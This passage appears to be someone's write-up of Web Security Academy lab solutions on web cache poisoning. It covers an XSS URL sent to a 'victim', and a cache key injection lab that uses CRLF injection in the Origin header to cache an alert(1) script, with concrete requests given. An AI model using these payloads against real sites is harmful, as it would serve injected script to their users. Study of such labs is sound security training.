 Resend it to make cache server store it and submit this URL to the victim:

    https://0ad500a80402b786813207a2002400e2.web-security-academy.net/post/comment<script>alert(1)</script>

Even with the URL encoding, the normalization makes it appears to be the same cache key and the victim will be served with our malicious response.

### LAB: Cache key injection
- The `/login` page **redirects** users based on the `lang` parameter.
- The regex used to filter query parameters **ignores `utm_content`**, allowing an attacker to **append unkeyed parameters** after `lang`:
  ```
  /login?lang=en?utm_content=anything
  ```
  - This means the **cache key does not include everything after the second `?`**, allowing **injection of additional parameters**.
- The `/login/` page imports a localization script:
  ```
  <script src="/js/localize.js?lang=en"></script>
  ```
- However, it **does not URL-encode** the `lang` parameter.
- This means the script URL can be **polluted** with additional parameters via:
  ```
  /js/localize.js?lang=en?utm_content=anything
  ```
- The browser will interpret `?utm_content=anything` as **part of the `lang` value**, causing it to be included in the request **without proper encoding**.
- The `/js/localize.js` endpoint has an issue where, if `cors=1`, it improperly **reflects the `Origin` header** into the response headers **without validation**.
- This allows an attacker to inject headers by **URL-encoding CRLF characters (`%0d%0a`)**, which represents **newline characters**:
  ```
  Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$
  ```
  - This injects a **fake `Content-Length` header**, followed by **JavaScript payload** (`alert(1)`):
  ```
  Origin: x
  Content-Length: 8

  alert(1)
  ```

---

**Step 1: Poison the Cache for `/js/localize.js`**
- Send the following request:
  ```
  GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/2
  Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$
  ```
  - This does **two things**:
    1. **Injects the malicious header** (`Content-Length: 8`) into the cached response.
    2. **Caches the poisoned version** of `/js/localize.js` for the cache key: `/js/localize.js?lang=en?cors=1&x=1$$origin=x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$`

---